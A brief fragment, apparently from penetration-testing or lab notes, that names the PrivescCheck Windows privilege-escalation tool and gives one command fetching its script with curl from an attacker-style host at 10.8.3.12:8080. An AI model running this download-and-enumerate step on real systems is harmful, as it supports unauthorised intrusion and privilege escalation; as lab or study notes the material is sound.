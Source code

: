 - Privesc Check  https://github.com/itm4n/PrivescCheck



 cmd /c "curl http://10.8.3.12:8080/PrivescCheck.ps1 > PrivescCheck.ps1 "

